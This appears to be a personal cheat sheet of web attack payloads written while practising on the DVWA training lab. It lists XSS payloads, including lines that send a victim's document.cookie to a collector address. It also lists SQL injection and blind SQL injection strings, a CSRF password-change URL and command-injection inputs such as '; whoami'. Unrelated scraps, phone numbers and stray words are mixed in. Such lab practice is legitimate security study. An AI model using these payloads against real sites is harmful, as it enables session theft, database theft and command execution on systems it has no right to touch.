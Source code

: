 XSS

<script>alert("hacked")</script>

><script>alert("hacked")</script>

</option></select><script>alert("hacked")</script>

<scR<script>iPt>alert("hacked")</scRiPt>

<scRiPt>alert("hacked")</scRiPt>

<scRiPt>alert(document.cookie)</scRiPt>



<ScRiPt>window.location="http://127.0.0.1:1212/?cookie="+document.cookie</sCriPt>

<img src/onerror=window.location="http://127.0.0.1:1234/?cookie="+document.cookie>

XSS DOM-Medium:
</select><img src/onerror=alert(document.cookie)>

<?php
phpinfo();
?>

SQLi

ID: 1'or'1'='1'UNION SELECT "text1","text2";-- -&Submit=Submit

1'or'1'='1' UNION SELECT 1,2;-- -&Submit=Submit

1'or'1'='1'
1 or 1=1' UNION SELECT 1,2;-- -&Submit=Submit

## CSL training
01613 275276
01613 275280

<<Blind SQL>>

1' and sleep(5)#
1 and sleep(5)
<<Finding length of database>>
1' and length(database())=1#

<<finding out database name>>
1' and ascii(substr(database(),1,1))>109#	**in ascii, m=109
1' and ascii(substr(database(),1,1))>99#	**in ascii, c=99


## CSRF

*Low:
http://localhost/DVWA/vulnerabilities/csrf/?password_new=admin&password_conf=admin&Change=Change&user_token=8905297a7fabacb634073f0692638b15

## Command Injection

*Low:
IP; ls
IP; cat file.txt
IP; whoami; hostname; ifconfig; pwd; ls ../; echo "hacked"

IP %% ls
IP || ls

*Medium: (Background with "&")
127.0.0.1 & ls

*High
127.0.0.1|ls

mar
	derivatives

pr 	blocking susp acc
lic asia
